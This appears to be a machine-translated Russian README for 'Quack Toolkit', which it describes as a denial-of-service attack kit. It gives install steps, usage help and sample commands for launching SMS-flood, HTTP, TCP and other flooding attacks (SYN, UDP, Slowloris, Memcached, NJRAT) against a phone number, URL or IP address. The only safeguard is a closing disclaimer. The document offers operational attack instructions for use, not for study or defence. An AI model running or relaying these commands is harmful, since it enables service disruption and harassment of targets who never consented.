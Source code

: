 

# About Quack Toolkit

```
Это набор инструментов для отказа
сервисных атак. Quack Toolkit включает SMS-атаку
инструмент, инструмент атаки HTTP и многие другие инструменты атаки.
```

***

# Начинаем

## Quack установка

> cd quack

> chmod +x install.sh

> ./install.sh

## Удаление Quack

> cd quack

> chmod +x uninstall.sh

> ./uninstall.sh

***

# Выполнение Quack Toolkit

```
Для запуска Quack Toolkit вам необходимо:
выполните следующую команду.
```

> quack

```
usage: quack [-h] [--target <ip:port/URL/phone>]
             [--tool [SMS|NTP|TCP|UDP|SYN|POD|SLOWLORIS|MEMCACHED|HTTP|NJRAT]]
             [--timeout <timeout>] [--threads <threads>] [-u] [--version]

optional arguments:
  -h, --help            Показать это справочное сообщение и выйти
  --target <ip:port/URL/phone>
                        Целевой IP-адрес и порт, URL-адрес или телефон.
  --tool [SMS|NTP|TCP|UDP|SYN|POD|SLOWLORIS|MEMCACHED|HTTP|NJRAT]
                        Инструмент атаки.
  --timeout <timeout>   Тайм-аут в секундах.
  --threads <threads>   Количество потоков.
  -u, --update          Обновите Quack Toolkit.
  --version             Показать версию Quack Toolkit.
```

***
  
# Примеры Quack Toolkit

## Пример SMS-атаки
    
> quack --tool SMS --target 15554443333 --timeout 10 --threads 10
    
## Пример HTTP-атаки

> quack --tool HTTP --target http://<span></span>example.com/ --timeout 10 --threads 10
    
## Пример атаки TCP

> quack --tool TCP --target 192.168.1.100:80 --timeout 10 --threads 10

***

# Отказ от ответственности Quack Toolkit

```

Использование Quack Toolkit для атаки целей без предварительного обоюдного согласия является незаконным.
Конечный пользователь обязан соблюдать все применимые местные, государственные, федеральные и международные законы.
Разработчики не несут ответственности и не несут ответственности за любое неправильное использование или ущерб, причиненный этой программой.


```
